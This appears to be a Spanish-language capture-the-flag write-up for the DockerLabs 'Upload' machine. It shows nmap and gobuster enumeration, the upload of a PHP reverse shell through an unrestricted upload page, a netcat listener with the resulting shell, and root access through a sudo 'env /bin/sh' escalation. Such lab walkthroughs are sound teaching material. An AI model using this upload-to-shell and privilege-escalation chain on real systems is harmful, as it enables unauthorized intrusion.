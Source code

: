 # Upload
https://dockerlabs.es

*24/5/2024*

## ENUMERACION

```
└─$ nmap -p- --open --min-rate 5000 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 18:04 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00043s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```
Enumeracion de directorios web
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,php.wak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,php.wak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
===============================================================
Finished
===============================================================

```


## ANALISIS DE VULNERABILIDADES

Esta pagina que descrubrimos funciona con php y permite cargar archivos para luego ser ejecutados

```
![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/d968530a-dd07-485c-9de2-750e03411c7d)

```


## EXPLOTACION

Crearemos un archivo .php el cual genere una reverse shell, puedes utilizar esta pagina para generarla, descargarla por github o crearla tu mismo

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/507a7464-bb1c-4abd-8d9e-f4baa5e1cd6d)

Lo cargamos a la pagina

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/c9436da4-3a09-49de-ac7c-ae4dc3746ecb)

Nos ponemos en escucha por el puerto 443
```
└─$ sudo nc -nvlp 443                              
listening on [any] 443 ...
```

Y lo ejecutamos por medio del navegador

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/d64cdff7-94a2-4c26-aa09-5adbdf32764b)

Y nos devolvera una reverse shell
```
connect to [192.168.0.22] from (UNKNOWN) [172.17.0.2] 53608
SOCKET: Shell has connected! PID: 61
whoami
www-data
```


## POST-EXPLOTACION

Escalamos privilegios
```
sudo -l
Matching Defaults entries for www-data on 0936e4313479:                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0936e4313479:
    (root) NOPASSWD: /usr/bin/env
sudo env /bin/sh
whoami
root
```

Y tratamos las TTY
```
script /dev/null -c bash
Script started, output log file is '/dev/null'.                                                                     
root@0936e4313479:/var/www#
```
